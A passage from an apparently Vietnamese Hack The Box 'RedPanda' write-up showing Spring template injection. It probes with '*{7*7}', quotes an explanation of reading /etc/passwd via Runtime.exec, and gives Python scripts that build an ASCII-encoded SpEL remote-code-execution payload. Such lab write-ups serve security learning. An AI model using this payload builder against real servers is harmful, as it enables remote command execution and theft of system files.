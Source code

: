 Còn rất nhiều những payload đơn giản khác để kiểm tra, và tôi nhận được kết quả với `*{7*7}` 

Với payload tìm được phía trên, tôi sẽ thử thay $ bằng * ở đầu payload

![payload](/assets/img/2022-10-24-HTB-RedPanda/4.webp)

Nhưng làm cách nào để hiểu được payload này? 

Tôi tìm được trên github 1 lời giải thích khá rõ ràng, nó ở [đây](https://gist.githubusercontent.com/nani1337/8010d7a625e5f90ec026bab32ffb5cc2/raw/ed3fda09b1a3619c1bf52afc62728b030d1f8a4d/spring%2520to%2520rce). 

*The payload became quite huge. To sum up, I used the Apache IOUtils library. I converted cat etc/passwd into ASCII characters using the character class, passed this value to the exec() method and got the input stream and passed it to the toString() method of IOUtils class. Awesome isnt it.*

```python
#!/usr/bin/env python
from __future__ import print_function
import sys

message = input('Enter message to encode:')

print('Decoded string (in ASCII):\n')
for ch in message:
   print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""), 
print('\n')
```

Code này chỉ sinh ra format của mã ASCII chứ không đầy đủ payload nên tôi sẽ sửa nó để có thể RCE.

```python
#!/usr/bin/python
from __future__ import print_function
import sys

message = input('Enter message to encode:')
encode = []

print('Ecoded string (in ASCII):\n')

for ch in message:
	encode.append(str(ord(ch)))
	
	payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % encode[0]
   
for ch in encode[1:]:
	
	payload += ".concat(T(java.lang.Character).toString({}))".format(ch)

payload += ").getInputStream())}"
```